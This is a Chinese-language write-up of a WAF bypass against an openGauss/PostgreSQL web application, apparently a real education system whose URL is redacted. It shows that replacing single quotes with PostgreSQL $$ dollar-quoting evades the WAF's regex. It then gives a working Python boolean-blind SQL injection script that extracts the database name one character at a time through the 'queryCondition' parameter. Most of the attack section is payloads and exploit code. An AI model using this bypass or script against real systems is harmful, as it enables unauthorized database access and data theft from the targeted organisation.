




# 记一次PostgreSQL下WAF绕过
前置已知条件：

- 数据库使用的是国产的opengauss

- opengauss基于postgresql改的

存在WAF拦截

如果`queryCondition`参数值为True存在回显，默认是返回所有字段值

> length(current\_database())\=14



> substr(current\_database(),1,1)\='e'

使用函数`substr`等会直接切断连接，经测试发现其实是不直接过滤`substr`函数，而是正则匹配`substr(xxxxx)='xx'`类似这样的形式，其实大部分WAF拦截的正则匹配都是这样写的，如果直接拦截`substr`等字符串，可能会把某些正常请求给ban掉。



发现postgresql数据库存在特性，单引号可以使用$$进行替代。


尝试构造:
> substr(current\_database(),1,1)\=$$e$$



发现成功返回所有信息，据此可以使用布尔盲注脚本跑出数据库名

编写布尔盲注脚本

```python
import requests 
from string import ascii_lowercase,digits
import time
chars=ascii_lowercase+digits+'_'
Headers={
    'Cookie':'xxxxxxxxx',
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36'
}
url='https://xxxxxxxxxxxx/xajy/EDUCommon.action?how=getXCodeMstData'

params={
    'queryCondition':'substr(current_database(),{i},1)=$${j}$$',
    'queryField':'cod_key1,code_name1'
}
session=requests.Session()
current_database=''
for i in range(1,15):
    for j in chars:
        params['queryCondition']=f'substr(current_database(),{i},1)=$${j}$$',
        response=session.post(url,headers=Headers,params=params)
        time.sleep(1.5)
        if len(response.text)>300:
            current_database+=j
            print('current_database:',current_database)
            time.sleep(3)
            break


```
